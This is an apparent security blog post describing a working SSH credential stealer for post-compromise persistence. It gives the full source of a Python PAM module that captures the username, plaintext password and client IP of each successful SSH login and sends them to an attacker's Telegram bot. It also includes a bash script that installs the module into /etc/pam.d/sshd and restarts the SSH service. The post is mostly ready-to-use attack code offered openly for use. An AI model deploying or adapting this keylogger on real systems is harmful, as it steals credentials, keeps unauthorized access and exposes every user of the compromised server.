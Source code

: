 ```yaml
---
layout: post
title: Stealing SSH credentials Another Approach.
description: Recently I posted how to get ssh password using strace, but it's no 100% effective, because the strace output changes on different distros, so searching for another approach I found a new one.
keywords: ssh, pwning, bash, G4mbl3r
disqus: true
tags: [SSH]
categories: Persistence
---
```

#### Stealing SSH credentials Another Approach.
Recently I posted how to get ssh password using strace, but it's no 100% effective, because the strace output changes on different distros, so searching for another approach I found this site [ChokePoint]( http://www.chokepoint.net/2014/01/more-fun-with-pam-python-failed.html) where they show how to create a PAM module using python to log failed attempts on ssh, now all I have to do, was change where they log the password.
Original script, use the function auth_log when the login failed.
{% highlight Python %}
    if not check_pw(user, resp.resp):
        auth_log("Remote Host: %s (%s:%s)" % (pamh.rhost, user, resp.resp))
        return pamh.PAM_AUTH_ERR
     return pamh.PAM_SUCCESS
{% endhighlight %}

And my script use my function sendMessage when the login is successful
{% highlight Python %}
    if not check_pw(user, resp.resp):
        return pamh.PAM_AUTH_ERR
    sendMessage("Connection from host {} user:{} password: {})".format(pamh.rhost, user, resp.resp))
    return pamh.PAM_SUCCESS
{% endhighlight %}

This function basically send the user,password and the IP of who is connecting, here is the final code,
{% highlight Python %}
import spwd
import crypt
import requests

def sendMessage(msg):
    apiKey = 'BOT-API-KEY'
    userId = 'USERID'
    url = 'https://api.telegram.org/bot{}/sendMessage?chat_id={}&text={}'.format(apiKey,userId,msg)
    r = requests.get(url)

def check_pw(user, password):
    """Check the password matches local unix password on file"""
    hashed_pw = spwd.getspnam(user)[1]
    return crypt.crypt(password, hashed_pw) == hashed_pw

def pam_sm_authenticate(pamh, flags, argv):
    try:
        user = pamh.get_user()
    except pamh.exception as e:
        return e.pam_result

    if not user:
        return pamh.PAM_USER_UNKNOWN
    try:
        resp = pamh.conversation(pamh.Message(pamh.PAM_PROMPT_ECHO_OFF, 'Password:'))
    except pamh.exception as e:
        return e.pam_result

    if not check_pw(user, resp.resp):
        return pamh.PAM_AUTH_ERR

    sendMessage("Connection from host {} user:{} password: {})".format(pamh.rhost, user, resp.resp))
    return pamh.PAM_SUCCESS


def pam_sm_setcred(pamh, flags, argv):
    return pamh.PAM_SUCCESS


def pam_sm_acct_mgmt(pamh, flags, argv):
    return pamh.PAM_SUCCESS


def pam_sm_open_session(pamh, flags, argv):
    return pamh.PAM_SUCCESS


def pam_sm_close_session(pamh, flags, argv):
    return pamh.PAM_SUCCESS


def pam_sm_chauthtok(pamh, flags, argv):
    return pamh.PAM_SUCCESS

{% endhighlight %}

I also created a bash script to "install" this ssh keylogger, where all the dependencies are installed, and configure this PAM module on /etc/pam.d/sshd
{% highlight bash %}
#!/bin/bash

# Install dependencies to create a PAM module using python (Except for python-pip)
apt-get install python-pam libpam-python python-pip

# Install dependencies python
pip install requests

# Check if exist the entrie on pam, for this module
if ! grep -Fq "looter.py" /etc/pam.d/sshd;then
    sed -i "/common-auth/a auth requisite pam_python.so looter.py" /etc/pam.d/sshd
fi

code='
import spwd
import crypt
import requests

def sendMessage(msg):
    apiKey = "API-KEY"
    userId = "USER-ID"
    url = "https://api.telegram.org/bot{}/sendMessage?chat_id={}&text={}".format(apiKey,userId,msg)
    r = requests.get(url)

def check_pw(user, password):
    """Check the password matches local unix password on file"""
    hashed_pw = spwd.getspnam(user)[1]
    return crypt.crypt(password, hashed_pw) == hashed_pw

def pam_sm_authenticate(pamh, flags, argv):
    try:
        user = pamh.get_user()
    except pamh.exception as e:
        return e.pam_result

    if not user:
        return pamh.PAM_USER_UNKNOWN
    try:
        resp = pamh.conversation(pamh.Message(pamh.PAM_PROMPT_ECHO_OFF, "Password:"))
    except pamh.exception as e:
        return e.pam_result

    if not check_pw(user, resp.resp):
        return pamh.PAM_AUTH_ERR

    sendMessage("Connection from host {} using the user {} and password {}".format(pamh.rhost, user, resp.resp))
    return pamh.PAM_SUCCESS


def pam_sm_setcred(pamh, flags, argv):
    return pamh.PAM_SUCCESS


def pam_sm_acct_mgmt(pamh, flags, argv):
    return pamh.PAM_SUCCESS


def pam_sm_open_session(pamh, flags, argv):
    return pamh.PAM_SUCCESS


def pam_sm_close_session(pamh, flags, argv):
    return pamh.PAM_SUCCESS


def pam_sm_chauthtok(pamh, flags, argv):
    return pamh.PAM_SUCCESS
'
mkdir -p /lib/security/
echo "$code" > /lib/security/looter.py
/etc/init.d/ssh restart
{% endhighlight %}
In the final, when someone successfuly log on the server you'll receive a message like that.
![alt text](/assets/images/telegram-message-ssh-pam.jpg)
